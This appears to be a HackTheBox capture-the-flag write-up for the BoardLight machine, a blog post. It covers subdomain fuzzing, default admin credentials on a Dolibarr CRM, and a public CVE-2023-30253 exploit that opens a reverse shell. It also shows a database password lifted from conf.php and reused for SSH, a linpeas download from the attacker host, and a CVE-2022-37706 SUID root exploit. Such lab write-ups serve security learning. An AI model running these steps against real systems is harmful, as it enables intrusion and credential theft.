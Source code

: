 ```yaml
---
layout: post
title: HackTheBox BoardLight
date: 2024-04-25
tags: [HackTheBox, Windows]
---
```


# Machine Synopsis

Currently Locked. ([Source](https://www.hackthebox.com/machines/boardlight))

# Enumeration

```bash
$ nmap -sC -sV 10.10.11.11
Starting Nmap 7.94SVN ( https://nmap.org )
Nmap scan report for 10.10.11.11
Host is up (0.0050s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.76 seconds
```



![website](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/BoardLight/website.png?raw=true)

>   At the footer of the webpage: `© 2020 All Rights Reserved By Board.htb`.

Add `board.htb` into our hosts file.

```bash
$ ffuf -u "http://board.htb" -H "Host: FUZZ.board.htb" -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
...
warez                   [Status: 200, Size: 15949, Words: 6243, Lines: 518, Duration: 9ms]
index                   [Status: 200, Size: 15949, Words: 6243, Lines: 518, Duration: 10ms]
download                [Status: 200, Size: 15949, Words: 6243, Lines: 518, Duration: 16ms]
default                 [Status: 200, Size: 15949, Words: 6243, Lines: 518, Duration: 16ms]
search                  [Status: 200, Size: 15949, Words: 6243, Lines: 518, Duration: 15ms]
full                    [Status: 200, Size: 15949, Words: 6243, Lines: 518, Duration: 17ms]
privacy                 [Status: 200, Size: 15949, Words: 6243, Lines: 518, Duration: 16ms]
new                     [Status: 200, Size: 15949, Words: 6243, Lines: 518, Duration: 18ms]
about                   [Status: 200, Size: 15949, Words: 6243, Lines: 518, Duration: 17ms]
...
```

There seems to be multiple false positives. Filter out size `15949`.

```bash
$ ffuf -u "http://board.htb" -H "Host: FUZZ.board.htb" -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -fs 15949
...
crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 36ms]
```

Add `crm.board.htb` to the hosts file.

![crm_website](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/BoardLight/crm_website.png?raw=true)

The credentials `admin:admin` worked but the admin dashboard showed `Access is denied.`

![admin_access_denied](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/BoardLight/admin_access_denied.png?raw=true)

# Exploitation

Searching for `Dolibarr 17.0 exploit` brings out to this [GitHub repository](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253).

```bash
$ python3 exploit.py http://crm.board.htb admin admin 10.10.14.5 9999
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```

```bash
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.11] 50130
bash: cannot set terminal process group (890): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ cd /home
www-data@boardlight:/home$ ls
larissa
www-data@boardlight:/home$ cd larissa
bash: cd: larissa: Permission denied
```



```bash
www-data@boardlight:/home$ find /var/www/html/crm.board.htb/ -name "conf"
/var/www/html/crm.board.htb/htdocs/conf
www-data@boardlight:/home$ ls /var/www/html/crm.board.htb/htdocs/conf
conf.php
conf.php.example
conf.php.old
```



```bash
www-data@boardlight:/home$ cat /var/www/html/crm.board.htb/htdocs/conf/conf.php
...
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';
...
```

Found the password `serverfun2$2023!!` and turns out this password is for `larissa`.



# Privilege Escalation

```bash
$ cd /usr/share/peass/linpeas
$ ls
linpeas.sh  linpeas_darwin_amd64  linpeas_darwin_arm64  linpeas_fat.sh  linpeas_linux_386  linpeas_linux_amd64  linpeas_linux_arm  linpeas_linux_arm64
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
larissa@boardlight:~$ wget http://10.10.14.5/linpeas.sh
larissa@boardlight:~$ chmod +x linpeas.sh
larissa@boardlight:~$ ./linpeas.sh
...
SUID - Check easy privesc, exploits and write perms
...
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID binary!)
...
```

The `/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys` is vulnerable to `CVE-2022-37706`. The exploit can be found [here](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit).

```bash
larissa@boardlight:~/Downloads$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# 
```



